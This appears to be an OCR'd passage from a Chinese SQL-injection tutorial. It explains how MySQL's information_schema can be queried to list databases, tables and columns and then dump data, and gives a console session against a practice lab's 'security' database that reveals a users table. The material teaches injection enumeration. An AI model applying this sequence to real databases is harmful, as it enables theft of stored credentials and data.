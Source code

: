 Mysql 有一个系统数据库 information_schema,存储着所有的数据库的相关信息  

我们利用该表可以进行一次完整的注入。以下为一般的流程:  

```
猜数据库
select schema_name from information_schema.schemata
猜某库的数据表
select table_name from information_schema.tables where table_schema=’xxxxx’
猜某表的所有列
Select column_name from information_schema.columns where table_name=’xxxxx’
获取某列的内容
Select *** from ****
```  

```
mysql> select schema_name from information_schema.schemata;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |

| challenges         |
| mysql              |
| security           |
| test               |
| testdb             |
+--------------------+
6 rows in set (0.00 sec)

mysql> select table_name from information_schema.tables where table_schema="security";
+------------+
| table_name |

+------------+
| emails     |
| referers   |
| uagents    |
| users      |
+------------+
4 rows in set (0.00 sec)

mysql> select column_name from information_schema.columns where table_name="users";
+-------------+

| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set (0.00 sec)

mysql> select username from users;
+----------+
| username |

+----------+
| Dumb     |
| Angelina |
| Dummy    |
......

```
